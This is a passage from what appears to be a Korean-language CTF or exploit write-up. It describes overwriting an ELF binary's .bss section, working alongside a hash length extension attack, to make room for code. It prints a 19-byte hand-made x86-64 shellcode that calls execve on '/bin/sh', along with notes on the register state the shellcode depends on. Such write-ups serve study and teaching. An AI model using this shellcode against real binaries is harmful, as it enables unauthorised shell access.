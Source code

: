   <img src="/assets/img/posts/3/12.jpg" style="width:500px" />
</a>
</div>

```
[13] .plt              PROGBITS         0000000000001020  00001020
     0000000000000030  0000000000000010  AX       0     0     16
```

.plt 의 size 는 0x30 으로 그리 크지않다. 그래서 0x8 로 작은 size 를 가지는 .bss section 을 덮어쓰기로 했다. 또한 Hash Length Extension Attack 을 위해 덧붙여지는 데이터까지 고려하면 실질적으로 남는 공간은 19bytes 정도밖에 되지 않는다. 일단 이 정도면 충분히 쉘코드를 넣을 공간은 된다고 판단하고 선택했다.

쉘코드는 19bytes 공간에 맞추기 위해 직접 다시 만들었고 아래와 같다.

```asm
xor rsi, rsi
push rcx
pop rdx
add dx, 2F8Bh
push rdx
pop rdi
push 3Bh
pop rax
push rsi
pop rdx
syscall
```

이 쉘코드는 완전히 독립적이지 않고 __libc_start_main 에서 call rcx 로 쉘코드가 호출되기 직전의 레지스터 상태에 의존하며, "/bin/sh" 문자열도 dynamic section 에 넣은 다음 해당 위치를 가리키도록 했다. 물론 이 문자열은 dynamic table 로 인식되지 않으므로 아무 상관이 없다.

<br>
